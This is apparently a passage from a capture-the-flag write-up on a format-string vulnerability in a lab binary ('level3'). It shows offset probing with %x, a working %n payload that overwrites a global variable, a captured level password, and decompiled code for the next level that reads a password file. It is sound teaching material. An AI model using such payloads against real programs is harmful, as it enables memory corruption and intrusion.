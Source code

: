 We can see here that `printf` is called, however the argument is not an absolute string, but instead a value that we can control. Therefore, we can use a little known feature of `printf`: the `%n`, that allows writing to the stack !

[Exploit 101 - Format Strings - BreakInSecurity](https://axcheron.github.io/exploit-101-format-strings/)

For that, we need to write `64` to the address of m. Meaning we have to get the address of m, write it to the buffer, determine where it is written in the memory, and finally write 64 - 4 characters with the `%n` to write this number to the memory, with `4$` used to specify what address to write to (spoiler: the address of m). 
Address of m: `0x0804988c` -> `\x8c\x98\x04\x08`

Let's try to determine at what position what we write in the memory is:

```bash
./level3 
AAAA %x %x %x %x %x %x %x %x %x %x 
AAAA 200 b7fd1ac0 b7ff37d0 `41414141` 20782520 25207825 78252078 20782520 25207825 78252078 
```

We get `AAAA` at the fourth argument (`41414141`).

Let's now verify we can write an address here:

```bash
python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
�200 b7fd1ac0 b7ff37d0 `804988c`
```

Finally, let's write the exploit by specifying to write the 64 bytes to the address of m:

```bash
(python -c 'print "\x8c\x98\x04\x08" + ("A" * 60) + "%4$n"' ; cat) | ./level3
```

`b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

# level4

```c
void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 16930116) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

void main(void)
{
  n();
  return;
}

```
